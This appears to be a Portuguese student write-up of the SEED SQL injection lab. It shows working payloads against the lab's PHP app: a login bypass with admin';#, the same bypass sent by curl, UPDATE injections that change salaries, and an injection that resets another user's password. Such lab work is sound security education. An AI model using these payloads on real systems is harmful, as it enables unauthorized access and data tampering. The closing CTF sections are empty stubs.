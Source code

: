# Trabalho Realizado nas Semanas #8 e #9

## Task 1

- Utilizamos o mysql para interagir com a base de dados como root. De seguida utilizamos o show tables para ver as tabelas da base de dados.
- E corremos o comando SQL mostrado em baixo para ver os dados da alice.

![ver dados da alice](images/w8/task1_1.png)

## Task 2  

### 2.1 

- Analisando o código PHP em unsafe_home.php, bastaria inserir um pedaço de comando SQL no campo correspondente ao $input_uname, de modo a aceder à informação pretendida.

![img](images/w8/task2_1_a.png)

- No nosso caso, adicionamos um #, ficando o código que se segue (que verifica a password) comentado.
- WHERE name= ’admin';#

![img](images/w8/task2_1_b.png)

### 2.2

- Recorremos à mesma estratégia usada na alínea anterior.
- O comando executado foi: curl 'www.seed-server.com/unsafe_home.php?username=admin%27%3B%23&Password='.
- Verifica-se, pela seguinte imagem, que foi obtida a informação dos funcionários.

![img](images/w8/task2_2.png)

### 2.3 

- Existe, de facto, uma medida que impede a execução de 2 comandos SQL em um ataque. Para se executar vários comandos SQL (agrupados), o comando multi_querie() precisa de estar presente.
- As funções de querie, por norma, não ativam uma flag de conexão necessária para ativar multi queries no servidor. 

## Task 3

### 3.1

- Analsiando o código PHP em unsafe_edit_backend.php, não há novamente qualquer proteçao contra sqli, sendo possível inserir código SQL nas variáveis do formulário.
![vulnerable_code](images/w8/task3_1.png)
- Assim, se colocarmos ',salary=1000000 WHERE name='Alice';# no nickname
![alice_salary_form](images/w8/task3_2.png)
- O código executado será 
```sql
UPDATE credential SET
nickname='',salary=1000000 WHERE name='Alice';#’...
```
Como tal, o salário é alterado e o código restante é comentado.
![alice_salary](images/w8/task3_3.png)

### 3.2
- Para alterar o salário de oura pessoa, basta mudar o nome 'Alice' filtrado com o where para o da pessoa que se pretende mudar o salário. 
- Assim, passamos a colocar ',salary=1 WHERE name='Boby';#

![boby_salary_form](images/w8/task3_4.png)
- O código executado será 
```sql
UPDATE credential SET
nickname='',salary=1 WHERE name='Boby';#’...
```
![boby_salary](images/w8/task3_5.png)

### 3.3
- É guardada o hash do input da password. Como tal, não se pode colocar código neste parâmetro.
- No entanto, dado que o número de telemóvel aparece depois da password, se colocarmos a password desejada no parâmetro password e injetarmos código sql no número de telemóvel de forma a mudar o filtro para escolher o utilizador que é alterado, conseguimos o desejado.
- Para isto, colocamos 'WHERE name='Boby';# no número de telemóvel.
![boby_password](images/w8/task3_6.png)
- Assim, o código executádo será

```sql
UPDATE credential SET
nickname='',
email='',
address='',
Password=sha1($input_pwd);,
PhoneNumber=''WHERE name='Boby';#'WHERE ID=$id;
```
- Como tal, a password do Boby é alterada para a fornecida no parâmetro password.

- Conseguimos então fazer login na conta do Boby com o seu username conhecido e a password que escolhemos.

![boby_login](images/w8/task3_7.png)
![boby_after_login](images/w8/task3_8.png)

# Desafios CTF

## Semanas 8 e 9 - Desafio 1

- 

## Semanas 8 e 9 - Desafio 2

- Ao correr o comando checksec, verifica-se que o estado das proteções é o seguinte:

![img]() 

- Qual é a linha do código onde a vulnerabilidade se encontra?

- O que é que a vulnerabilidade permite fazer?
